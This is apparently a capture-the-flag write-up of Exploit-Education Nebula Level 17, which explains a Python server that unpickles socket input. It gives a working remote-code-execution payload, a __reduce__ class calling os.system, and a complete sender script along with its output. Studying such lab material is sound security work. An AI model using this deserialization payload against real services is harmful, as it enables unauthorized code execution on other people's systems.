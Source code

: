 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 17"
date:   2019-08-23 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 17](https://exploit.education/nebula/level-17/)

## Challenge
There is a python script listening on port `10007` that contains a vulnerability.

To do this level, log in as the `level17` account with the password `level17`. Files for this level can be found in `/home/flag17`.

## Vulnerability
```python
def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")
```
This program uses python `pickle` module. [Pickle Module](https://docs.python.org/2/library/pickle.html)
>The pickle module implements a fundamental, but powerful algorithm for serializing and de-serializing a Python object >structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and 
>“unpickling” is the inverse operation, whereby a byte stream is converted back into an object hierarchy.
>We can see in  `server` function the program is `unpickiling` userdata.

We can see a warning in the same page.
>Warning:The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received >from an untrusted or unauthenticated source.  

So it is unsafe to `unpicke` untrusted data and thats exactly what the `server` function is doing.
You can read more about it [here](https://blog.nelhage.com/2011/03/exploiting-pickle/).

So the vulnerability is that we can run our own code since python is `unpickiling` our data.
## Solution
We can write a python class that runs a script we control.
```python
import os
class Exploit(object):
  def __reduce__(self):
    return (os.system,(('/tmp/run.sh'),))
obj=Exploit()
line=pickle.dumps(obj)
```
The `__reduce__` function returns a `tuple` representing the command to be run. This `tuple` can be easily `pickled`.[Additional information on __reduce__](https://docs.python.org/3/library/pickle.html#object.__reduce__)
Essentially what this script does is, it returns the pickled format of the command we have to run. Here we are running the script `/tmp/run.sh`. The `pickled` result can used as the input for `flag17` program.
```bash
level17@nebula:~$ nano /tmp/run.sh
level17@nebula:~$ chmod 777 /tmp/run.sh
level17@nebula:~$ cat /tmp/run.sh
getflag>/tmp/out
```
I am running `geflag` and writing the output to a file named `/tmp/out`. I also wrote a complete python script to send the `pickled` data.
```python
#!/usr/bin/python

import pickle
import os
import socket
class Exploit(object):
  def __reduce__(self):
    return (os.system,(('/tmp/run.sh'),))
obj=Exploit()
line=pickle.dumps(obj)
HOST = "127.0.0.1"
PORT = 10007
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((HOST,PORT))
s.recv(1024)
s.sendall(line)
print line
```
Lets run the script.
```bash
level17@nebula:~$ python pickle2
Accepted connection from 127.0.0.1:58290
cposix
system
p0
(S'/tmp/run.sh'
p1
tp2
Rp3
.
```
Check the output in `/tmp/out`
```bash
level17@nebula:~$ cat /tmp/out
You have successfully executed getflag on a target account
```
### Solved